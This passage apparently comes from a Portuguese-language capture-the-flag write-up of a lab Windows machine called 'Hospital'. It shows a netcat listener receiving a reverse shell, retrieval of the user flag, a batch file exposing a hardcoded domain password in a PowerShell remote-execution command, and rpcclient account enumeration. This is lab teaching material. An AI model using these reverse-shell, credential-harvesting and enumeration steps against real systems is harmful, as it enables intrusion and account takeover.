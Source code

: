 Após enviar o e-mail, nosso shell reverso estará pronto.

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.11.241] 6124
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\drbrown.HOSPITAL\Documents>
```

#User Flag

Para encontrar a user flag, basta navegar até o Desktop do drbrown.
```
C:\Users\drbrown.HOSPITAL>cd Desktop
C:\Users\drbrown.HOSPITAL\Desktop>type user.txt
type user.txt
7f785f1abc*******fbc61fd9502c6c9c
```

#Root Flag

Procurando pelo ghostscript, foi possível descobrir a senha do Rpcclient.

```
C:\Users\drbrown.HOSPITAL\Documents>type ghostscript.bat
type ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
```

Após verificar Rpccliente, identifiquei que as informações de administrador é compartilhada com as de guest.

```
rpcclient $> querydispinfo
index: 0x2054 RID: 0x464 acb: 0x00020015 Account: $431000-R1KSAI1DGHMH	Name: (null)	Desc: (null)
index: 0xeda RID: 0x1f4 acb: 0x00004210 Account: Administrator	Name: Administrator	Desc: Built-in account for administering the computer/domain
index: 0x2271 RID: 0x641 acb: 0x00000210 Account: drbrown	Name: Chris Brown	Desc: (null)
index: 0x2272 RID: 0x642 acb: 0x00000210 Account: drwilliams	Name: Lucy Williams	Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xf0f RID: 0x1f6 acb: 0x00020011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0x2073 RID: 0x465 acb: 0x00020011 Account: SM_0559ce7ac4be4fc6a	Name: Microsoft Exchange Approval Assistant	Desc: (null)
index: 0x207e RID: 0x46d acb: 0x00020011 Account: SM_2fe3f3cbbafa4566a	Name: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}	Desc: (null)
index: 0x207a RID: 0x46c acb: 0x00020011 Account: SM_5faa2be1160c4ead8	Name: Microsoft Exchange	Desc: (null)
index: 0x2079 RID: 0x46b acb: 0x00020011 Account: SM_6e9de17029164abdb	Name: E4E Encryption Store - Active	Desc: (null)
index: 0x2078 RID: 0x46a acb: 0x00020011 Account: SM_75554ef7137f41d68	Name: Microsoft Exchange Federation Mailbox	Desc: (null)
index: 0x2075 RID: 0x467 acb: 0x00020011 Account: SM_9326b57ae8ea44309	Name: Microsoft Exchange	Desc: (null)
index: 0x2076 RID: 0x468 acb: 0x00020011 Account: SM_b1b9e7f83082488ea	Name: Discovery Search Mailbox	Desc: (null)
index: 0x2074 RID: 0x466 acb: 0x00020011 Account: SM_bb030ff39b6c4a2db	Name: Microsoft Exchange	Desc: (null)
```
